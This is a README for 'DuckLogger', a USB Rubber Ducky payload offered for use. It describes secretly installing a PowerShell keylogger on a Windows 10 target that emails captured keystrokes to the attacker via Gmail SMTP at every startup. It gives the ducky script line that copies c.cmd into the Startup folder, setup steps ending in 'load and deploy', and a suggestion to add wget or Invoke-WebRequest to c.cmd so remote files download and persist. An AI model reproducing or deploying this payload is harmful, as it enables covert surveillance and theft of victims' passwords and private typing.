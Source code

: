 # DuckLogger
> Chris Taylor [Blue Cosmo] | 08/24/21
---

```
:::::::::  :::    :::  ::::::::  :::    ::: :::        ::::::::   ::::::::   ::::::::  :::::::::: :::::::::
:+:    :+: :+:    :+: :+:    :+: :+:   :+:  :+:       :+:    :+: :+:    :+: :+:    :+: :+:        :+:    :+:
+:+    +:+ +:+    +:+ +:+        +:+  +:+   +:+       +:+    +:+ +:+        +:+        +:+        +:+    +:+  
+#+    +:+ +#+    +:+ +#+        +#++:++    +#+       +#+    +:+ :#:        :#:        +#++:++#   +#++:++#:    
+#+    +#+ +#+    +#+ +#+        +#+  +#+   +#+       +#+    +#+ +#+   +#+# +#+   +#+# +#+        +#+    +#+    
#+#    #+# #+#    #+# #+#    #+# #+#   #+#  #+#       #+#    #+# #+#    #+# #+#    #+# #+#        #+#    #+#     
#########   ########   ########  ###    ### ########## ########   ########   ########  ########## ###    ###     
```

## Overview:
```
DuckLogger is a USB RubberDucky payload that uses powershell to log keystrokes
```
- moves *c.cmd* file to windows startup directory
- *c.cmd* will secretly run *l.ps1*
- *l.ps1* will log keystrokes and email the logs every startup [via SMTP]

## Resources:
- [YouTube Video]()
- [YouTube Channel](https://youtube.com/cosmodiumcs)
- [Website](https://cosmodiumcs.com)

## Requirements:
- Twin-Duck flashware
- Gmail account
    - i suggest making a separate Gmail account for this payload
    - your Gmail must have [LSA Access](https://myaccount.google.com/lesssecureapps?pli=1&rapt=AEjHL4Px2VEFPoFPEuLutMD6UhNVRyY9P3s7l-pCGA53NBqilKVrtltrfS1823x5i6k6_pSEVp6jkEW0zKQT2CHN0WXh4fvGiw) enabled
- Windows 10 Target

## Instructions:
Set-Up/Installation
1. change Gmail credentials in *c.cmd*
```powershell
# gmail credentials
$email = "example@gmail.com"
$password = "password"
```
2. change name of the SD Card in *payload.txt*
```
REM change 'L' do the name of your ducky
STRING $u=gwmi Win32_Volume|?{$_.Label -eq'L'}|select name;cd $u.name;cp .\c.cmd "C:/Users/$($env:UserName)/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/";exit
```
3. choose an option in *payload.txt*
```
REM comment out the option you decide NOT to use

REM STAGE 5 [OPTION1]
REM run keylogger
STRING .\c.cmd;exit

REM STAGE 5 [OPTION2]
REM restart computer
STRING shutdown /r
```
4. flash Twin-Duck flashware on to your duck
    - [Tutorial](https://youtu.be/ao32BS8fwaM?t=700)
5. load and deploy!!

## Extraneous:
The *c.cmd* attack opportunity
```
the c.cmd file runs every startup.
this means an attacker could place a
'wget' or 'Invoke-WebRequest' and have a file
be downloaded from anywhere on the internet onto the computer.
the file would then save in the startup directory,
allowing it to run every startup
```
---
Show Files via powershell
```
TEMP:
    attrib -h -s -r l.ps1;attrib -h -s -r "$env:UserName.log"
STARTUP:
    attrib -h -s -r c.cmd
```
---
- hope you enjoy the payload!!
- please subscribe to my [YouTube channel](https://youtube.com/cosmodiumcs) :)
